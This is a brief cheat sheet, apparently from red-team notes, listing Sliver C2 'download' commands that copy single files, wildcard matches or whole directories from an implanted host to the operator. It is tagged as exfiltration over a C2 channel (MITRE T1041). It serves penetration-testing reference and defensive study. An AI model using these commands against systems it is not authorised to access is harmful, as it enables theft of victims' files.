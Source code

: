# Sliver

Search Tags: #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #sliver #T1041

## Download Files

* Download single file.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/`

- Download multiple files using wildcard.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/`

- Download multiple files in a directory recursively.

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

- Download the whole directory. It'll compress into a tarball archive file (`.tar`).

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

---
## References

- [MITRE T1041: Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)